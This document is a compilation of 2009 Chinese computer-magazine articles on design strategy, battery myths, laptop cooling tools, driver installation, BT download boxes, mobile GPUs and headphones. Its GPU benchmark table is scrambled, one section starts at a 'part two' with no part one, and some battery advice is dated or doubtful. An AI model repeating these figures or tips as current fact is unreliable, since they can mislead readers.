创新不仅在改变我们的产品世界，也在改变企业本身的DNA，设计必然要经过早期的抄袭、模仿，再到创意的这一不可逆的过程。而作为世界工厂的国内制造业也走着这样一条路，而今它们面临着一个抉择，继续做一个埋头苦干的“工人”一辈子，或者去做一位“创意者”继而转化为“策划者”。

# 创意者：福特的财富革命

“弯腰从地板上取一件工具或一个零件是一项毫无任何意义的劳动，因此，（装配流水线上的）所有材料都要被送到与腰部一样高的地方。”1913年的某一天，福特让工人用绳索把汽车底盘拉到其他工人面前进行装配，于是批量生产的原则首次被应用到汽车工业中，人类管理历史上第一条最原始的流水生产线由此诞生。在此后20多年的时间里，福特对其流水生产线不断地进行标准化革新，大大提高了生产效率。大规模流水线生产作业带来工业生产方式上的革命，福特公司也因此而连创世界汽车工业时代的生产纪录：1920年2月7日，1分钟就可以生产1辆汽车。到了1925年10月30日，10秒钟就可以生产1辆汽车。

# 策划者：罗尔斯·罗伊斯的增值服务

成立于1904年的罗尔斯·罗伊斯（以下简称RR）是全球最大的飞机引擎和汽油涡轮机制造商，并提供陆地、海洋和航空用电力系统。该公司的产品主要为飞机发动机，可用来装备西方各国制造的近70种军用和民用飞机。RR公司不仅提供质量可靠的产品，还为其客户提供高价值的服务，并从服务业务中获取巨额收入，如它的“公务机服务”协议，支持新的和在役发动机，提供整机的修理和检查，以及发动机数据采集和分析，用户则根据发动机实际工作时间每月支付酬金。该公司在过去18个月中所宣布的民用发动机订单有大约80%都含有服务协议，且服务覆盖比例继续提高，使RR能在原本就已经很高的营业收入基础上获得稳步增长服务收入占RR总收入的一半以上，据统计2007年已达到53.7%。

# 阴谋之二：打破设计制造的两难

# 一难：难在供需平衡

我国近20年来培养的工业设计专业毕业生仅3万人左右，只相当于韩国目前该专业在校生的数量。但是另一方面，每年少量的毕业生还不好就业，很多工业设计专业毕业生都不得不改行。

# 二难：难在创意狭窄

目前国内大多数的设计师都还年轻，从事设计工作的量也很大，不要说工作之余的学习，单是能够保证正常的休息就已经不错了。而驻厂在一线的设计师们，他们知道什么样的设计能够顺利通过老板的审批这一关，同时要应付生产、计划、技术、销售、市场、财务、管理等各个部门的关口，设计思路反而越走越窄。

纵观人才市场可以发现，成为一个优秀的设计师要突破层层难关，工作经验与教学体制成为了博弈的关系。而在DIY领域最早走向个性化的机箱也面临着人才短缺的问题。航嘉作为知名大厂抛出的橄榄枝，可以说是一石二鸟，既可以吸收到更好的人才加以培养，更扩大了自己在工业设计上的影响力。

设计大赛往往带来更多的是理念，而不是实际的产品。考虑到制造难度、生产成本等等问题而无法量产，但理念和亮点之处却可为所用，每一次创意大赛的举办不但冲击着大众的眼球，同时也给自己的设计师带来了一股清风，脱离工厂的校园风，离开现实的理想风。

阴谋是智者的行为，航嘉的阴谋表现出了制造业的变革，也证实着航嘉力图在金融危机的风暴中转型的意向。但地处国内制造业排头位置的航嘉，借着每年一届的设计大赛在世界上竖起中国设计的大旗才是它最终需要实现的目标。

# 手机照相功能的另类妙用

现在只要是手机就有拍照功能，这个功能大家除了用在自拍和随拍的场所上，想过将它用在有用的地方吗？比如测试红外设备的好坏。

数字家庭的标准比较多，本文暂且不说，但数字家庭最明显的变化就是遥控器多了起来，各色遥控器堆在一起，难保哪天某个遥控器就突然罢工了。如果发现当使用遥控器时被遥控的家电没有反应，那便是手机拍照功能大展拳脚的时候，利用它可以很简单地检查出遥控器的好坏。

首先打开手机的照相机，然后将遥控器对着摄像头按一些控制按键，如开机、音量控制等，这时看手机的屏幕上是否有闪光（闪光可能是绿色、红色或者是蓝色，根据环境和手机的屏幕显示来确定）：如果有连续的闪光，则表示遥控器是好的；如果是断续的闪光则表明该遥控器已经损坏；不发光首先要考虑的是电池是否有电，更换电池依旧如此，就证明了遥控器已经歇菜了。当在手机屏幕上确定遥控器是连续闪光，被遥控的产品没有反应，那么很不幸的是信号接受的产品已然挂掉，修理吧。利用手机的照相功能，检查红外设备可以简单而又便捷，省略了很多折腾的过程，生活就是这样，关注下细节便可以得到许多实惠。

## 电池不是这么玩的，炸了并不一定是它的错

经常可以见到媒体报道手机、笔记本电池在用户使用过程中无故爆炸，有时还会发生伤人事件。此时大家的口径都是一致的：不是产品质量问题便是用户使用了山寨假货电池。殊不知不正确的操作和使用，在减少电池使用寿命的同时，也会带来这样的恶果。而大家往往会选择性无视这些。本文在对一些错误观念进行纠正时，特邀请了一位网名为Gumphe的高手为大家讲解使用电池的经验。

### 人物介绍：
Gumphe从事于锂离子电池的研发、维护等方面的工作，对锂离子电池颇有研究，曾经还获得过日本Sanyo公司的锂离子聚合物电池专家藤井先生及另一位同样资历的德国专家J博士在锂离子电池方面的技术真传。

## 所谓的惯性思维：新电池一定要三充三放？
1999年就玩机的老手阿三可谓是经验老道，这些年里他买了N部手机，但买电池的数量可不止3*N。阿三对商家提醒新电池一定要三充三放牢记在心已数载，他也经常将其作为一个电池使用密技告诉身边朋友。

其实，时过境迁，如今的手机、笔记本及其他数码设备的电池早都更换为锂电池、聚合电池了。而三充三放理论是镍氢、镍镉电池的必须操作，而惯性思维地应用到锂电池、聚合物电池上，可以说是电池商家们的阴谋，目的就是让你的电池过早下岗。

镍氢、镍镉电池具有记忆效应，需要通过几次彻底充电、放电才能将其激活而达到最佳工作状态。而锂电池或是聚合物电池，不具有记忆效应，其在出厂前已经被激活（专业名称为“活化处理”），无须用户过问。

## 容量一定是越大越好？
按理论上说，电池容量越大，待机时间越长，使用起来更方便。但是现在超过2000mAh的电池在制造技术上不成熟，进而会出现安全隐患（例如在过充后容易漏液、爆炸等危险），而比普通锂电池容量更大的聚合电池价格高。因此，为了安全起见，不要一味地追求容量而忽视安全。

### Gumphe支招：
目前全球的电池技术仍处于发展阶段，技术上没有绝对成熟，而大容量电池存在的风险很大，为了安全起见，建议大家宁可多备用几块电池，也不要选择超大容量电池，特别是在炎热的夏季。

### 小知识：
锂聚合物电池（Li-polymer，又称高分子锂电池），它也是锂离子电池的一种，但是与液锂电池（Li-ion）相比具有能量密度高、更小型化、超薄化、轻量化，使用的是固态电解质，以及高安全性和低成本等多种明显优势，是一种新型电池。在形状上，锂聚合物电池具有超薄化特征，可以配合各种产品的需要，制作成任何形状与容量的电池。该类电池的最小厚度可达0.5mm。

## 快充比慢充更爽快，充电器选购很随意
小红由于工作性质决定，在给手机电池进行充电时喜欢选择快充方法，购置充电器时也是专拣充电电流大的快充型充电器。

殊不知，这些一味追求“效率”的同时，是以牺牲电池寿命为代价的。通常在电池上都会明码标注充电电压及电流，如果站在保护电池的角度，最好选择充电器的充电电压、电流与电池上的说明一致。此外，如果时间允许，选择慢充的方式对电池的保护更好。而在选择充电器时就需要有些讲究了，通常慢充充电器的价格比快充充电器的价格高，它们一般带有防过充电路保护。

### Gumphe支招：
如果使用的是镍氢、镍镉类电池，避免随充随用，尽量做到一次性充满一次性用完这样的科学循环。而锂离子、聚合物电池恰恰相反，由于其没有记忆效应，通常在充电电量达到70%-90%左右使用最佳，随充随用不会伤害电池。不同品牌、型号的电池最好不要混用。电池在充电时注意环境温度不要过高，防止漏液（镍氢、镍镉、锂离子类电池），长时间不使用，最好在三四个月左右的时间给电池充满电，防止过放电而损害电池。此外，很多商务人士，时间（单位为分钟）往往比电池更值钱，使用快充虽然不得当但往往却更“合理”，这种舍此得彼的做法类似于“舍得”二字新解——有舍就有得。

（文/睿德）

## 汽车人 变形 出发 打造变形金刚准装备
如果说hello kitty是每个女孩的梦，那么变形金刚无愧是每个男孩心中的一个梦。在今夏最火的大片变形金刚2的席卷下，唤起了儿时难以忘怀、深深埋藏在心底最富有热血男儿的情怀。

我是擎天柱，向所有喜爱变形金刚的玩家发出此讯息：“我们”在等你们！

身为一个准变形金刚迷，手中要是没有几件像样的装备，都不好意思跟人说看过变形金刚大片。还好丰富的电脑外设产品给了我们一个怀旧的机会。

- 终极杀器：擎天柱的双刀 Razer炼狱蝰蛇变形金刚版 售价：499元
擎天柱凭借两把双刀以一敌三，在森林中械斗莫过于全片最经典的片段。
Razer的炼狱蝰蛇被不少游戏玩家津津乐道，而近期又发布了限量定制版——炼狱蝰蛇变形金刚版，这不就是鼠标中的双刀么！有黄、白两色，分别是人气最高的大黄蜂与威震天，采用了3G光学引擎，解析度1800DPI，刷新率1000Hz，奇妙的呼吸灯Logo运用更是亮点，而且是限量1万只的哦。

- Camaro，大黄蜂的疾速坐骑 Rantopad变形金刚主题鼠标垫 售价：109元
影片中大黄蜂来到地球变成了Camaro跑车，硬朗的外形吸引了无数人的眼球。
Rantopad变形金刚主题鼠标垫得到了《变形金刚2》电影的正式图案授权，是美国孩之宝、派拉蒙、梦工厂、GM汽车正版授权的鼠标垫。有博派限定版和狂派限定版两大系列的多种图案产品。尺寸为404×284mm，厚度4mm，是一款较大尺寸的鼠标垫产品，使用了渗入式犀牛皮工艺处理的织物材质，表面更加平滑，质感很不错。

- 能量晶体，变形金刚的动力之源 LIFEPA L变形金刚U盘 售价：159元
博派与狂派无止境的争斗，目的只为一块蕴含了巨大能量的晶体。
LIFEPA L作为清华同方旗下的品牌，该U盘目前共有4GB、8GB两种容量规格，经过孩之宝正版授权，极具收藏价值和升值潜力。U盘的本体需要进行旋转之后，才能弹出USB插头，不仅省去了同类产品的防护盖，而且还巧妙防止了USB插头的磨损。

- 究极护甲，擎天柱与天火合体 长城至尊翼龙T-02机箱 售价：450元
擎天柱凭借天火的护甲，毫不费力地击败堕落金刚拯救地球。
当第一眼看到长城至尊翼龙T-02机箱时，不由得就会想到变形金刚，因为它的前面板设计就好比博派和狂派LOGO的合体。由于采用了优质环保板材，加上使用了全尺寸主板托盘配合深抽工艺，强度高不易变形。机箱配有防辐射EMI弹片，而超大风扇也加强了散热效果。

### 召唤更多的变形金刚！
设计好的产品固然美观，但是有一定局限性。不如打造自己的变形金刚，其实很简单。例如笔记本的外壳同样可以贴上漂亮的变形金刚贴膜，有不少图案的产品可以选购。
各种变形金刚的标志也可以轻松买到，尺寸从小到大、塑料材质或贴纸的，用在笔记本或台式机、甚至鼠标、键盘上，让变形金刚无处不在。

## 烤鸡蛋的本本怎么用
最近小张买了一台华硕F50W585SV-SL笔记本电脑，玩游戏时感觉速度也算不错，就是有一个问题：机器太热了！玩游戏不到半小时，整个机身就开始发热，一两个小时后，机身都开始有点烫手，买了个散热底座感觉好一些，可老这么热下去，本本是不是会坏掉呢？

其实，对于采用ATI独立显卡的本本来说，问题可能要好些。在ATI的催化剂驱动程序中有针对电源的设置选项，默认就是可以让显卡在闲时降频以达到降低温度的目的（当然，也取决于本本的电源设置，如果是“一直开着”或“高性能”，一样不能降频）。但对于像小张这样使用NVIDIA独立显卡的华硕F50W585SV-SL笔记本电脑来说，就没有这个功能了。
在NVIDIA 2008年爆发显卡门事件后，为了避免这个问题，NVIDIA将驱动程序一律取消了自动调节频率的功能。而且，原本这个功能就只能在Windows XP下使用，Vista乃至现在的Windows 7配套驱动程序中，都不具备这个功能——PowerMizer。

### 小知识：什么是PowerMizer？
PowerMizer是NVIDIA显卡的一种动态电源调控技术，可使笔记本电脑用户根据其特定需求调节系统性能和电池损耗，PowerMizer实现自动控制，又可由用户控制，其分为三种模式，可以尽量延长电池使用寿命，或是降低系统工作温度。与之对应的是ATI显卡的PowerPlay技术。

要在Vista或Windows 7下让本本温度、尤其是显卡温度降下来，可以通过一个小软件来达到目的，下载PowerMizer Switch（下载地址：http://work.newhua.com/cfan/200918/ps.rar），然后运行程序，点选PowerMizer on按钮，然后重启电脑，让我们来看看温度有多大的变化吧。

系统玩了十五分钟游戏，在没有安装PowerMizer Switch的情况下，核心频率为400MHz，温度也达到了52度，而且还在迅速攀升。
安装PowerMizer Switch之后，玩一小时游戏，再闲置待机状态五分钟，此时的核心频率降低了一半儿还多，只有169MHz，显卡温度也降低到了47度，效果很明显哦。如果你是NVIDIA显卡的用家，不妨快装一个PowerMizer Switch吧！

CfanBoundEdition·2009

## 日系本本你会买吗
6年前，富士通凭借着“日本的IBM（指Thinkpad）”美名进入中国市场。在这6年中，用“挣扎”来形容富士通再合适不过了。前不久，富士通终于对自己的产品进行了进入国内市场以来最大的更新，推出了一批对于富士通来说是前所未有的低价产品。但看起来，似乎消费者也并不怎么买账。曾几何时，以东芝为代表的日系笔记本风靡全球，东芝更是十年前当仁不让的世界笔记本第一大厂。现如今呢？东芝依旧在前十之内，只不过掉到了第五名。而东芝也是在世界前十的厂商中唯一一家日系企业。为什么富士通、SONY、东芝等一干日系厂商在中国不被消费者接受，为什么世界范围内，日系本并不能像电视一样风靡全世界？

## 只为日本服务
为什么日系本本那么不被看好？消费者的态度就能说明问题：配置好的本本价格太贵，同比近似规格的其他品牌产品往往要贵20%；低配机型又没有太好的外观，卖相又输了一分；而且新款与旧款电脑间的外形差距也非常小，几乎一模一样，很难吸引消费者。另外，你很难找到低于5000元的日系笔记本电脑，只有为数不多的几款可以选择。反观其他品牌的产品，4000余元的机型数不胜数。

当然，这也和国情有一定关系：日本2008年全职员的平均月薪为29万9100日元，折合人民币在2万余元，而笔记本的绝对价格，实际上与我国目前市场的产品基本保持一致。鉴于收入上的差距，日本消费者的价格承受能力显然要好于我国消费者。而日系厂商的习惯是：针对本国（指日本）消费者需求设计产品。也就是说，对市场、产品的定位，基本不考虑他国国情。不能本土化，也就意味着失去了市场。

SONY VAIO P就是一个最最典型的例子，在一切追新、追奇的前提下，SONY自然是要满足日本国人的口味——尽可能的小巧。这也是为什么一款采用上网本平台的产品被做成了一个类似口袋PC的设备，用它上网还是当MP4？这个疑问还是留给日本人去思考吧，至少我们不需要。

## 肯德基的成功秘诀
大家都知道肯德基、麦当劳，这两个洋快餐品牌。为什么国人对肯德基的热衷程度要高于麦当劳？仔细观察一下你就会发现问题所在了。麦当劳的产品大多依照欧美口味设计，很少有本土化的产品。但肯德基就不同了——洋快餐里卖油条，这样简单而又符合国人口味的快餐放在面前，还能有几个消费者选择麦当劳的早餐呢？

## 我们想要价格合理的日系本
要想消费者能够接受日系本，厂商就必须在产品上作出改变。对此富士通个人电脑亚太区行销及业务总监陆宇澄表示，富士通笔记本一直秉持“可信，可用”概念不断发展，而今年富士通在这四字方针中还额外添加了“普及”二字。他表示，富士通在保持高品质的前提下，将会不断推出适合中国消费者价格需求的产品，此次推出6999元的价格还只是一次小范围的试水，未来价格定位很有可能突破6000元大关。

显然，富士通迈出变革的第一步还是很小，这个6000元底线应该是2007年被全面突破的。而在产品上，我们也注意到富士通发布的新品S6421与2007年发布的S6410模具几乎相同，这样的步伐不仅让我们质疑富士通究竟有没有认真研究过国内市场？

日本，是一个电子工业十分发达的国度，它的很多设计实力都是世界首屈一指的。然而，故步自封的现象遍及日本的多个行业，所以可以看到很多厂商，无论什么类型，对日本都要单独设立一个市场部。对于消费者来说，购买日系产品看中的大多是其产品的技术实力，但面对笔记本这样技术相对透明的产品来说，日系厂商并不占优势。那么，消费者对日系本的需求就放在两个地方：外观、价格。除了SONY外，不客气地说，日系产品的外观都偏向保守，并没有体现亚洲国家对产品审美的要求。另一方面，就是价格极不合理，正如我们所言的富士通，6000元的产品还能够算得上低价吗？显然不是。所以，要想获得消费者的心，价格、外观，以及服务，都是日系厂商要认真思考的。

## 细说诺基亚智能手机功能按键
智能手机的内涵，需要不断的挖掘与总结，才能了解设计者的理念。除了S60系统的拓展和软件功能深入研究，即使是诺基亚智能手机上几个常见的功能按键，也有着隐藏的应用“属性”。

## 常规按键的二次开发
开/关机键应该是我们接触频率最少的键位了，除了开关机之外，它好像并没有实际上的作用。其实不然，轻按开/关机键，便能使系统进入到切换情景模式的状态。无论是S40还是S60系统均可如此操作。这样不仅可以在开会时迅速将机器静音，还可以锁定键盘（直板机），方便快捷。

菜单键是一个设计的相当有心思的功能键，它就如同电脑上的WIN键一样，开启菜单。长按呢？则会显示系统当前所有运行的软件，包括后台已经运行的程序。通过这个功能可以查看到机器因为什么耗电量增加或是机器慢得要死的原因。

笔形键是个类似于电脑上的Shift与Ctrl键的功能，长按有着复制和粘贴的功能。

C键，顾名思义，是删除的意思。在很多场合都简化了我们对删除文件的工作量，只要是想删除的文件，直接按一下C键就会弹出“是否删除该文件”的提示，而不再需要在菜单栏中查找删除项目了。

红色挂机键可以直接回到待机状态的功能键，让需要保留某个软件的运行状态，又想回到待机状态，就按这个键吧。但需要说明的是此功能仅对SIS安装程序有效，JAVA程序用此按键后便会自动关闭。它还有个功能便是直接切断GPRS网络连接，十分方便。

## 将额外软件功能添加到左/右功能按键中
不知道大家是怎么称呼排列在挂机与拨号按键上的左/右功能键，有人说是左/右软键，还有的是多功能键。在这里简单的称为左/右功能按键吧。这左/右功能按键使用频率比较高，原因是可以自定义将一些常用的项目绑定在该键上，但却无法将后装入系统的软件进行绑定，稍有些不便，不过不用急，还是有办法的。

进入手机系统后，找到c(e)：\system\apps\，在以上目录下找到目标软件的安装文件夹→进入→找到相应的app文件→选项→编辑文件→应用程序连接确认→确定，捷径就会出现相应的文件图标；启动appman→installedapps（已安装软件）→选择目标软件→addtofavourites→确定。这样便可以将自己喜欢的软件绑定在左/右功能键上，但前提与上面的某个按键类似，要求后安装的软件必须是SIS，JAVA是无法进行该项操作的。

## 带着电源看医生
啊！又自动重启了。自从换了新显卡以后，莫名其妙的问题越来越多。换驱动、重装系统都试过了，难道是硬件问题？

## 更换硬件，功率算好
升级硬件后往往会出现功率不够的问题，究竟如何计算整机功率呢？知名大厂航嘉为我们提供了一个简单方便的计算器。

首先打开浏览器，键入网址：http://www.belson.com.cn/pwcount/pwcount.asp。选择配置，填写数量后点击提交按钮。一个大致结果就会被计算出来。

## 虚标电源，看图识别
虽然我们知道了自己整机功率大概的数值，但是自己的电源功率是否有水分呢？这个时候是该请出知名电源医生OCCT来了。

第一步：下载并安装OCCT（下载地址：http://www.onlinedown.net/soft/64867.htm）
第二步：点击左侧OPTIONS选项，在Language选项中选择Chinese simplified（简体中文），保存后退出。
第三步：点击左侧OCCT选项，并点击右侧的绿色ON按钮，1小时后OCCT会自动弹出并保存测试结果。

（文/许宁）

## 套个外壳就是外置光驱？ 警惕滥竽充数的山寨光驱

## 驱动程序 装还是不装
不少本本玩家拿回家的第一件事通常是重新安装操作系统，要么是因为版本不合用，要么就是想升级，总之结果就是重新安装。由于Vista（SP2）和Windows 7这样的操作系统在驱动程序上已经比较完善，很少会在设备管理器中出现问号，所以大家也就不那么在意驱动程序的事情了。那么，不安装驱动程序真的就能让本本发挥最大功效吗？

## 测试成绩证明一切
默认的驱动程序只是一个最最基础的驱动程序，能够做到的事情就是两个：第一保证系统硬件正常工作，第二保证最大的兼容性。在功能上、性能上，默认使用系统的驱动程序会让你损失不小哦！就拿华硕的N81Vp笔记本电脑来说吧，它的配置绝对够强悍，HD4650的独立显卡绝对是游戏玩家的最爱，不过，在一切都使用默认驱动程序的情况下，它的系统性能会有多少损失呢？处理器及内存部分，Superpi来检测N81Vp在默认驱动程序下没有任何性能变化，也就是说这方面还算OK啦！这一点显然Vista就做得不错，像AMD处理器在Windows XP下还需要安装驱动程序，好见鬼的事情！默认显卡驱动程序时，系统的3Dmark06得分差不多有5271分，那么在换用由ATI提供的驱动程序下又会得多少分呢？5829分哦！600分相当于有9%的差距，一般5%以上的分差就能有所体现，将近10%的差距，很容易感受到之间的性能差，可真别小看驱动程序的作用。还一个大问题，在观看高清电影的时候，如果是默认的驱动程序，甚至连显卡的硬解码功能都不能调用，超低CPU占用率想在默认显卡驱动程序下实现？没门儿！

## 不装驱动 天壤之别
从这一点说，驱动程序在性能上的影响是十分明显的。如果你还不相信，用最直观的方法来验证一下吧——安装Windows 7，来看看默认驱动和安装好驱动程序之后的差别吧。我们换用一台Thinkpad T61，因为其独立显卡NV140M是一款比较特殊的专业型显卡，即便是Windows 7也没有提供驱动程序，用这种比较极端的例子来反映问题显然再合适不过了。Windows 7在默认驱动程序下的得分是1.0，安装好驱动程序后，得分就达到了4.1分，这样的差距足够明显了吧？

## 没驱动 少功能
驱动程序的作用还不止于提升性能，更重要的是在功能上的差别。本本的Fn快捷组合键功能如果没有驱动程序，将无法进行操作；触摸板只使用系统默认驱动程序不能实现多点触摸操作；就连声卡驱动程序，如果你不安装，也将无法实现音效调节、环境设置。所有这些，系统默认的驱动程序一样也做不到。还是以华硕N81Vp举例，如果我们不装上Fn功能键的驱动程序，最多只能实现音量加减、亮度调节，其他功能，尤其是特定的控制功能，比如播放控制都没有办法实现。多点触摸功能更是如此了。当然，如果你对这个功能不在意，那么，滚屏翻页的侧边栏你需要吗？只用默认的系统驱动程序，连这个功能都不能实现哦！系统的音量调节功能就是这么简单，一个拉杆就完事了。想让声卡的功效变得更具操作性，比如设置环境音效EQ、设置使用环境等等，非Windows默认的驱动程序必不可少。

## 装驱动 比你想的简单
显然，无论从功能上还是性能上，如果只使用系统自带的驱动程序都远远不够。但问题来了，用户究竟怎样才能找到合用的驱动程序呢？最懒的方法自然是用一些特别的工具软件，比如说超级兔子、驱动精灵，以及Everest等等。但对比之下，显然驱动精灵更好用些。安装驱动精灵的时候，要注意选择驱动程序的备份存放目录，最好设置在非系统分区下，比如D盘。这样备份了驱动程序后，再次安装系统时会方便不少。在驱动精灵的主界面选“驱动更新”按钮，在选项卡中使用默认的“完全更新”，并根据需要选择驱动程序下载即可。当系统驱动程序安装完毕之后，按下“备份还原”按钮，并勾选所有设备，设置驱动备份存放位置就可以了。不是说其他两个软件不能使用，但毕竟有局限性。从试用来看，超级兔子强在功能强大，从驱动到优化，功能五花八门，但是更新的驱动程序并不足够新；Everest由于是国外软件，所有的驱动程序更新地址、查询地址都是英文网站，对普通用户来说实在有些障碍。相对而言驱动精灵更好点，驱动程序较新更新也快，而且功能专一，适用性更好些。同时，也不要把驱动精灵看成万能仙丹，也有一些设备是它不能解决的。比如一些需要软件配合一起使用的硬件驱动程序，还有一些生僻的硬件设备。至于我们说的一些特殊驱动程序，最好的方法就是按照设备的硬件ID来搜索驱动程序。在设备管理器中，双击未能安装驱动程序的设备，然后切换选项卡到“详细信息”处，点击“属性”内的下拉菜单，选择“硬件ID”，一般都是VID_XXXX（或VEN）、PID（或DEV）_XXXX这种，三个字母+下划线+四个数字的方式。将其中的字段摘抄出来放到搜索引擎上搜索，很容易就能知道设备是由哪一个厂商生产的，驱动程序也就有着落了。

### 小知识：什么是WHQL
WHQL是Microsoft Windows Hardware Quality Lab的缩写，意为“微软操作系统硬件质量实验室认证”。如果通过测试就证明这款产品与Windows操作系统可以达到100%兼容，从而使计算机系统达到前所未有的稳定性，所以你所购买电脑产品是否通过微软WHQL认证就成了计算机运行稳定的关键所在。WHQL认证过程十分严格，因此一款通过了WHQL认证的驱动程序可以说在Windows系统中很少存在兼容性问题。

### 小提示：
不要以为Vista或Windows 7不需要DirectX 9.0c，一些程序和不少游戏如果没有DirectX 9.0c的运行库文件一样不能正常运行，所以，安装好系统后，还是要更新一下DirectX 9.0c，这样才更妥当。
DirectX 9.0c下载地址：http://www.newhua.com/soft/5288.htm 
驱动精灵2009 B2.1完全版下载地址：http://www.myfiles.com.cn/soft/39/39276.htm

## 花小钱省大钱 廉价BT下载机选购

### 宽带包月如何充分利用起来？
每个月只有下班或放学之后才能上上网，心里自然不平衡，宽带包月的价钱也不便宜，我们要把自己的钱赚回来！BT下载机是个不错的选择，容易操作且投资小，要做的只是等待它下载完成，下班之后就可以自由自在地看大片了。

### BT下载机与电脑大PK
1. 容易，操作简单是关键。只需将下载地址存入下载机，接通电源连接网络等待下载完成。
2. 省电，十几瓦的功率开三四天才一度电，而一般的电脑平均耗电140瓦，长久算下来能省不少电费。
3. 安静，下载机发热量小，大多无风扇设计，不会影响睡眠休息。

### 要选就选最实惠和操作简单的
市场上有很多性价比不错的产品，难于上手的下载机不在考虑范围，既然是廉价下载机，大部分需要配合移动硬盘或单独购买硬盘来使用。网店下载机的价格一般比卖场便宜不少，建议网购。

### 1. 数帅极速迅雷下载王 价格：300元
迅雷联手数帅科技推出的专为下载而生的产品，性价比高，采用64MB内存，配合10M/100M自适应以太网端口连接到局域网下载，提供了2个USB2.0接口用来连接优盘与移动硬盘。通过WEB管理方式来管理控制数帅D600，适用于电脑基础比较好的用户。WEB管理不仅可以对D600进行高级设置，还可以查看设备的详细参数、使用情况等。同时还提供了实用的客户端，如同用户使用QQ一样方便实用，例如可以建立快捷目录，方便用户直接访问目标文件。

- ★优点：界面友好，零噪音，速度较快，功率只有10W哦。
- ★不足：不能内置硬盘，需要配合移动硬盘来使用。
- ★点评：支持BT、迅雷、Http、FTP等各种下载协议，同时买机器还赠送价值199元的高清大片推送服务。

附加服务一定要向商家索取，大片资源下载是免费的，别被JS忽悠成另外加钱购买。

### 2. 西数 My Book World Edition 价格：400元
西数推出的小型NAS下载机，虽然推出已经有一段时间了，但低廉的价格还是吸引不少人选购。市场上大部分是二手产品，运气好可以买到2007年的库存货，购买时还应优先选择商家改机的产品，比如升级64M内存（默认32M）的速度会快一些。该产品使用的是内置SATA接口，硬盘需要单独购买。

- ★优点：性能稳定，外观时尚。
- ★不足：由于本身采用LINUX系统，易用性不强，需具备一些动手能力。
- ★观点：功能强大，除支持BT、电驴下载外，刷机后可实现网络打印功能，同样可以使用USB接口扩充容量。

### 小提示：
1. My Book World Edition有一代二代之分，就是单硬盘与双硬盘的区别。双硬盘产品价格达到了700元，性价比不高，不建议选购。
2. 改机的费用自然商家不会掏腰包，费用会算在邮费里，并且电源也是要单独掏钱购买的，这两项一般需额外增加100元，选购时要向商家问清楚。
3. 部分商家以移动硬盘盒冒充下载机赚取暴利，前者只能实现存储数据的功能，购买时要注意辨别。

### 3. 东方时代NS700 价格：550元
功能强大，定位娱乐家庭的中端产品。采用64M内存，内置SATA硬盘，接口支持BT、电驴、FTP下载方式。在2M宽带的支持下可以达到200K/S的速度。而智能休眠，一键复制的功能则更加贴心实用。系统的风扇会根据温度来调节转速，即使是夜晚使用，也不会影响睡眠。

- ★优点：功能丰富，容易操作，界面美观。
- ★不足：价格略高，功耗略高，达到了18W。
- ★观点：采用4个USB2.0接口，可以连接更多的打印机、移动硬盘等设备。

该款产品目前只支持最大1TB硬盘。

### 火速链接：
你想对下载机有更多的了解，可以查看2009年第02期特别话题《超省钱！不开电脑狂BT》一文，详细地介绍了BT下载机的安装、设置等方法。

游戏本本如何选‘芯’

面对已经到来的下半年游戏狂潮，估计很多人已经按捺不住，想要买个带独立显卡的本本来爽一把了。目前，主要有NVIDIA的9600M GT、GT130M和ATI的Mobility Radeon HD4650这三种中端独立显卡最值得关注，性能价格都不同，哪种更划算呢？

| Crysis (1024×768) | 3DMark Vantage (1280×1024) | ATI Mobility Radeon HD4650 |
|-------------------|----------------------------|-----------------------------|
| 9600M GT          | 14                         | 1472                        | 5198                        |
| GT130M            | 17                         | 1680                        | 5610                        |
| HD4650            | 24                         | 2517                        | 6340                        |

9600M GT是目前笔记本电脑市场上占有率较高的一款成熟独显芯片，搭配合适的CPU和内存，能够流畅运行绝大部分2009年及以前推出的游戏，而且像推出时间不久的鬼泣4、使命召唤5等新游戏，由于优化得不错，9600M GT的笔记本甚至可以在高分辨率+中高特效下玩得很爽。

在这3款独立移动显示芯片中，HD4650可以说是最强的，不但在3DMark等测试软件中比GT130M得分高出20%以上，而且在个别游戏中的性能提升达到了50%甚至100%。虽然标称功耗比GT130M稍高，为34W，但对于笔记本厂商来说并不是什么问题，很多采用HD4650显卡的本本实际用下来也没有发现任何容易过热的迹象。

低调而沉稳 厚积薄发的漫步者

“漫步者的H800耳机还是相当不错的，两年前这个耳机给我带来了不少快乐。”游戏狂热爱好者大Z提起漫步者的耳机来赞不绝口：“前一阵想给自己的MP3配耳塞，挑了半天也没决定，印象里漫步者耳机并不多，后来看了一眼，竟然也是十几、二十款呢，最后买了一个H230，还不错哦！”

这话也提起了我们的兴趣。一般来说，我们对漫步者的印象大多集中在音箱产品上，似乎耳塞、耳机的世界，永远是假冒的森海塞尔、真伪难辨的飞利浦和不知名的杂牌。其实，漫步者在耳机、耳塞市场上一样有不少产品可供选择，只是被忽略了而已。

“与去年同期相比，2009年上半年，漫步者业绩翻番，”漫步者总裁张文东在接受记者采访时说：“除了国内市场份额进一步扩大，几乎占到全行业的半壁江山外，在海外市场漫步者自主品牌音响产品的销售也在逆势向高端挺进，这是我们在大环境不利的情况下业绩取得突破的重要原因之一。”2009年5月，在全球工业设计界最高规格的德国红点设计大奖评选上，漫步者新品M3 plus和E20两款产品同时获奖；这是国产多媒体音箱产品首次获此殊荣。

你总是能听到类似的声音，漫步者在音箱上的突出表现很容易让人忽略掉其他方面的作为，与漫步者音箱品牌的成功塑造相比，其耳机产品实在太低调了。依稀记得在2004年漫步者的耳机新品刚刚上市时，有幸把玩了其中一款，外形简单，单一看并没有出彩的地方，但比较起其他品牌动辄二三百元的产品，漫步者耳机在音质上丝毫不让，价格非常实惠，凸显了性价比的优势，加上集成了降噪、抑声等保护技术，对一般消费者有着很大的吸引力。最终市场反馈也证明了，低调的技术与平实的价格铸就了它的成功。

随后漫步者耳机便在市场中逐步蔓延开来，玩家们在谈论各色耳机产品时，也会捎带出漫步者，它已然在玩家的心中扎下了根，内敛的技术与较高的性价比是它取胜的手段，而用户对它最为津津乐道的是耳机产品低调的行事风格，无论哪款产品上市，很少有大面积曝光的时候，即使是有媒体出现了该产品的介绍，也是基于已经全面铺货的状态下，在经销商手中做一下简单的推介。

